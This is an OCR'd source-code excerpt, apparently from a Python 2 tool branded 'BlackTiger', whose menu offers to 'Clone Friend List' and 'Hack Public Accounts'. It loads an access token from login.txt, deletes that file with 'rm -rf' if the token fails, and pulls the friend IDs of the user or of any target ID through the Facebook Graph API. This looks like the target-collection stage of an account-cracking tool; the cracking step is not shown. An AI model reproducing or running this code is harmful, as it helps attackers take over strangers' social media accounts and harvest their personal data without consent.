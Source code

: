 def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "     \033[1;97m-•◈•-\033[1;91m> \033[1;91m1.\x1b[1;95m>_<Clone Friend List."
	print "     \033[1;97m-•◈•-\033[1;91m> \033[1;91m2.\x1b[1;95m>_<Hack Public Accounts ."
	print "     \033[1;97m-•◈•-\033[1;91m> \033[1;91m0.\033[1;91m>_<Back"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;91m^.^Choose an Option>>> \033[1;95m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;97m•◈•══════•◈•\033[1;91mBlackTiger\033[1;97m•◈•══════•◈•"
		jalan('\033[1;91mGetting IDs \033[1;91m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;95m[•◈•] \033[1;91mEnter ID\033[1;95m: \033[1;95m")
		print "\033[1;92m•◈•══════••◈•\033[1;91mBlackTiger\033[1;95m•◈•══════••◈•"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;91mName\033[1;95m:\033[1;95m "+op["name"]
		except KeyError:
			print"\x1b[1;91mID Not Found!"
			raw_input("\n\033[1;95m[\033[1;91mBack\033[1;95m]")
			super()
		print"\033[1;91mGetting IDs\033[1;97m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	